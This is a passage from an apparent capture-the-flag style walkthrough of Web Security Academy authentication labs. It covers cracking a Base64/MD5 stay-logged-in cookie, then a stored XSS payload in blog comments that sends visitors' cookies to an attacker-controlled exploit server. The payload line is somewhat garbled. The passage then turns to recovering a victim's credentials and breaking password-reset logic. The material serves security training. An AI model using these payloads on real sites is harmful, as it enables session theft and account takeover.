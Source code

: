     https://<lab_url>/my-account    GET     (Cookie: session=a7WhOO0mQ11DWzImYQJdn4ioU8P4Fk5a;  
                                            stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw)

    https://<lab_url>/logout        GET     (Cookie: session=a7WhOO0mQ11DWzImYQJdn4ioU8P4Fk5a;  
                                            stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw)
    ```

    - Be creative and find out what **d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw** stands for  
    (it's a **Base64** encoded value).
    - Send the value to the **Decoder** and decode it (**wiener:51dc30ddc473d43a6011e9ebba6ca770**).
    - Be creative and find out what **51dc30ddc473d43a6011e9ebba6ca770** stands for  
    (it's a **MD5** encrypted value).
    - Use your preferred tool to "decrypt" the value (**peter**).
    - Go to one of the blog posts and exploit the **Stored XSS** vulnerability in the comments section
    to send all the cookies of the users who visit the post to a server under your control.

    <br>

    ```plaintext
    <script>alert(1);</script>
    <script>var i=new Image;i.src="<script>document.location="
    https://exploit-acaa1ffe1e25110cc0c83285013800db.web-security-academy.net/"+document.cookie;</script>
    ```

    - Check the **Access log** of the server and look for the request containing the expected information.

    <br>

    ```plaintext
    ... secret=R1cHkoyd7CISQXfqqPJF56eG9G2TwMqj;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz ...
    ```

    - Decode (**Base64**) and "decrypt" (**MD5**) the **stay-logged-in** cookie value.

    <br>

    ```plaintext
    carlos:26323c16d5f4dabff3bb136f2460a943 (carlos:onceuponatime)
    ```

    - Login with the credentials and delete the account.

3. #### **Password reset broken logic**

    - Click **Forgot password?** then complete the whole proccess with a valid username (**wiener**)  
    and take note of the URL flow and the parameters sent.

    <br>

    ```plaintext
    https://<lab_url>/login             GET

    https://<lab_url>/forgot-password   GET

    https://<lab_url>/forgot-password   POST    (username=wiener)
